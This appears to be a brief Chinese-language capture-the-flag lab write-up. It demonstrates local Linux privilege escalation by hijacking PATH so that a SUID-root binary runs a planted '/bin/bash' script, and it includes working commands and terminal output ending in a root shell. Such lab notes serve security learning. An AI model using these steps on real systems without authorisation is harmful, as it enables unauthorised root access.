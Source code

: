 ## 權限提升：PATH
通常tmp容易寫入，但是不是PATH中 所以` export PATH=/tmp:$PATH`加入
```
karen@ip-10-10-155-52:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
karen@ip-10-10-155-52:/$ export PATH=/tmp:$PATH
karen@ip-10-10-155-52:/$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
karen@ip-10-10-155-52:/$ 
```

```
karen@ip-10-10-246-59:/home/murdoch$ ls
test  thm.py
karen@ip-10-10-246-59:/home/murdoch$ ./test 
sh: 1: thm: not found


karen@ip-10-10-246-59:/home/murdoch$ ls -al
total 32
drwxrwxrwx 2 root root  4096 Jan 29 09:39 .
drwxr-xr-x 5 root root  4096 Jun 20  2021 ..
-rwsr-xr-x 1 root root 16712 Jun 20  2021 test
-rw-rw-r-- 1 root root    86 Jun 20  2021 thm.py
```
### root 
可以用這個列出所有可寫的位置
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
```
有列出這個
/home/murdoch/
```
可以看見 test 是root root 而且執行的時候會說 thm: not found     
所以`echo "/bin/bash" > thm` 這樣執行test的時候 就會= root執行bash     
可是建完thm後還是說not found ，`export PATH=/home/murdoch:$PATH` 只需要把 thm的路徑加進PATH裡就可以
```
karen@ip-10-10-69-178:/$ cd /home/murdoch/
karen@ip-10-10-69-178:/home/murdoch$ ls -al
total 32
drwxrwxrwx 2 root root  4096 Oct 22 07:19 .
drwxr-xr-x 5 root root  4096 Jun 20  2021 ..
-rwsr-xr-x 1 root root 16712 Jun 20  2021 test
-rw-rw-r-- 1 root root    86 Jun 20  2021 thm.py
karen@ip-10-10-69-178:/home/murdoch$ echo "/bin/bash" > thm
karen@ip-10-10-69-178:/home/murdoch$ chmod 777 thm
karen@ip-10-10-69-178:/home/murdoch$ ./test
sh: 1: thm: not found
karen@ip-10-10-69-178:/home/murdoch$ export PATH=/home/murdoch:$PATH
karen@ip-10-10-69-178:/home/murdoch$ ./test
root@ip-10-10-69-178:/home/murdoch# 
```
